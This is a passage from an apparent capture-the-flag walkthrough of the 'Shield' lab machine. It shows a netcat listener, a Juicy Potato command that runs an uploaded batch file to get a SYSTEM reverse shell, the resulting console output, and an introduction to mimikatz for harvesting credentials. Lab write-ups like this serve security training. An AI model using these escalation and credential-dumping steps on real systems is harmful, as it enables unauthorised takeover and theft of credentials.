 Now power up netcat listener again on __port 443__ and execute the following command.

> If you failed to get the reverse shell, change the `-c` parameter (CLSID) from using [this](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2016_Standard) document and run again.
{: .prompt-warning}

```console
$ .\JP.exe -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} -p C:\inetpub\wwwroot\wordpress\wp-content\Uploads\sh3ll.bat -l 4444
```

This outputs:

```console
C:\inetpub\wwwroot\wordpress\wp-content\uploads>.\JP.exe -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} -p C:\inetpub\wwwroot\wordpress\wp-content\Uploads\sh3ll.bat -l 4444
.\JP.exe -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} -p C:\inetpub\wwwroot\wordpress\wp-content\Uploads\sh3ll.bat -l 4444
Testing {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} 4444
......
[+] authresult 0
{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\inetpub\wwwroot\wordpress\wp-content\uploads>
PS C:\Windows\system32> whoami
whoami
nt authority\system
PS C:\Windows\system32> cd /Users/Administrator/Desktop
cd /Users/Administrator/Desktop
PS C:\Users\Administrator\Desktop> dir
dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        2/25/2020   1:28 PM             32 root.txt
```

We are done, Shield has been Pwned!

## Post Explotation
---

As with prior machines, we aren't quite finished. We can find Sandra's credentials using [mimikatz](https://github.com/gentilkiwi/mimikatz/wiki).

> Software `Mimikatz` is often used to find credentials within Windows operating systems. Mimikatz can be found in the latest distro of Kali Linux in `/usr/share/windows-resources/mimikatz/x64`{: .filepath}, or you can download the tool from [here](https://github.com/gentilkiwi/mimikatz/releases) and upload it to the box.
{: .prompt-info}
